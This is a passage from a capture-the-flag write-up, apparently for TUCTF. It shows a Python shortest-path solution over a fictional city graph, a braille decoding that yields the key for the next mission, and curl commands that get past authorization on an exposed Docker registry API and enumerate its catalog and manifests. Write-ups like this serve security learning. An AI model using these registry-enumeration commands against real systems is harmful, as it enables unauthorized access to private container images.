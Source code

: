 ```python
    "Iyona:Jolat,Leter,Kepliker:15,4,3",  
    "Jolat:Osiros,Leter,Kepliker:7,4,5",  
    "Kepliker:Leter,Osiros,Partamo,Queria,Delato,Melyphora:5,2,6,7,2,5",  
    "Leter:Osiros,Rhenora:3,10",  
    "Melyphora:Partamo,Shariot,Queria:4,11,1",  
    "Notasto:Shariot:7",  
    "Osiros:Shariot,Rhenora:8,6",  
    "Partamo:Osiros,Rhenora,Shariot:1,5,9",  
    "Queria:Partamo,Rhenora,Shariot:1,6,10", 
    "Rhenora:Notasto,Shariot:2,1", ] 

G = nx.DiGraph()    # Create a directed graph

for l in links:
    start_n, targets, distances = l.strip().split(':')
    G.add_node(start_n)
    miles = list(map(int, distances.split(',')))
    for i,n in enumerate(targets.split(',')):
        if (not G.has_node(n)):
            G.add_node(n)
        G.add_edge(start_n, n, label=miles[i], len=miles[i], weight=miles[i])
print(G)    # DiGraph with 19 nodes and 56 edges

sl = nx.shortest_path(G, source='Attaya', target='Shariot', weight='weight')
print(sl)
# ['Attaya', 'Charity', 'Emell', 'Iyona', 'Kepliker', 'Osiros', 'Rhenora', 'Shariot']
```

There was one additional stage to this challenge. We were given a braille code fragment and asked to convert it to a key phrase for the next level of the challenge. 

```bash
# Use https://www.dcode.fr/braille-alphabet to decode 
# ⠥⠞⠀⠞⠉⠀⠎⠊⠋⠀⠍⠁⠀⠵⠁⠀⠝⠊⠀⠺⠊⠛⠀⠇⠇⠊⠀⠕⠉⠀⠍⠀⠑⠀⠃⠀⠅⠉⠁⠀⠛⠁⠀⠝⠊⠁
# to UT TC SIF MA ZA NI WIG LLI OC M E B KCA GA NIA
% for i in `echo "UT TC SIF MA ZA NI WIG LLI OC M E B KCA GA NIA" | tr ' ' '\n'`
do
echo $i | rev | tr -d '\n'
done
TUCTFISAMAZINGIWILLCOMEBACKAGAIN    # key for Mission 3
```
#### Silly Registry

We are given just a server endpoint, which seems to be taking HTTP requests. Upon sending a simple GET request gets an error, indicating that the request should be authorized. Putting a `Authorization:` tag into the header of the request is sufficient to bypass the errors. I as able to follow the API exploits in the following site [^1]


```bash
% curl --verbose  -H "Authorization: Bearer silly" chal.tuctf.com:30003/v2/silly/tags/list
% curl --verbose  -H "Authorization: Bearer silly" chal.tuctf.com:30003/v2/_catalog
% curl --verbose  -H "Authorization: Bearer silly" chal.tuctf.com:30003/v2/silly-container/tags/list

% curl --verbose  -H "Authorization: Bearer silly" chal.tuctf.com:30003/v2/silly-container/manifests/latest
% curl --verbose  -H "Authorization: Bearer silly" chal.tuctf.com:30003/v2/_catalog

% curl --verbose  -H "Authorization: Bearer silly" chal.tuctf.com:30003/v2/silly-container

% curl --verbose  -H "Authorization: Bearer silly" chal.tuctf.com:30003/v2/silly-container/manifests/latest

```

[^1]: https://dreamlab.net/en/blog/post/abusing-exposed-docker-registry-apis/
[^2]: https://electronics-course.com/jk-flip-flop
[^3]: https://github.com/snbk001/100DaysofRTL/blob/main/day11/jkff.sv
[^4]: https://www.falstad.com/circuit/e-jkff.html